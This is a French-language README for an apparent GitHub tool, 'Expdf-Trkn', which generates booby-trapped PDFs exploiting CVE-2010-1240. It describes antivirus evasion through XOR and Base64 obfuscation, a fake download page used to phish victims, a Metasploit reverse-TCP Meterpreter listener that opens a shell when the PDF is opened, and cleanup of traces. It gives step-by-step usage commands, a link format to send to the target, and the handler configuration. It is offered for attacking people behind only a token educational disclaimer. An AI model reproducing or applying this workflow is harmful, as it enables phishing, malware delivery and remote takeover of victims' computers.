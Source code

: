 📜 Expdf-Trkn

📌 Exploit PDF CVE-2010-1240 - Générateur par trhacknon

🚀 Expdf-Trkn est un générateur de PDF infecté exploitant la vulnérabilité CVE-2010-1240, avec obfuscation avancée et page de phishing intégrée.

Ce projet inclut aussi un listener Metasploit pour récupérer un shell sur la cible.

⚠️ Disclaimer

❗ Ce projet est uniquement à des fins éducatives et pour des tests en environnement contrôlé.

Toute utilisation illégale est interdite.


---

🔧 Installation

1️⃣ Cloner le repo

```bash
git clone https://github.com/trh4ckn0n/expdf-trkn.git
cd expdf-trkn
chmod +x expdf.sh
```

2️⃣ Lancer le script

```bash
./expdf.sh
```


---

📌 Fonctionnalités

✅ Génération de PDF infecté (CVE-2010-1240)

✅ Obfuscation XOR + Base64 pour échapper aux antivirus

✅ Page de phishing intégrée (fausse page de téléchargement)

✅ Listener Metasploit pour recevoir le shell

✅ Nettoyage automatique des traces


---

📜 Utilisation

🎯 1. Créer un PDF infecté

```bash
./expdf.sh
```

🔹 Entrez votre IP (Kali) et le port d'écoute.

🔹 Choisissez un nom pour le fichier PDF piégé.

🎯 2. Obfusquer le payload

```bash
./expdf.sh
```

🔹 Le PDF sera encodé avec XOR + Base64 pour contourner les antivirus.

🎯 3. Héberger le fichier et lancer la fausse page de phishing

```bash
./expdf.sh
```

🔹 Un serveur Apache est lancé avec un lien pour la victime.

🔹 La victime télécharge le PDF piégé via un faux site sécurisé.

🎯 4. Lancer le listener Metasploit

```bash
./expdf.sh
```

🔹 Attente de connexion de la victime.

🔹 Accès Meterpreter dès l'ouverture du PDF.

🎯 5. Nettoyage des traces

```bash
./expdf.sh
```

🔹 Suppression des fichiers et arrêt d'Apache.


---

💻 Exemple d'attaque

📌 Lien à envoyer à la cible :

http://[TON_IP]/index.html

📌 Commandes Metasploit :

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST [TON_IP]
set LPORT [PORT]
run
```

---

👤 Auteur

👨‍💻 Développé par : trhacknon

📂 Repo GitHub : trh4ckn0n/expdf-trkn
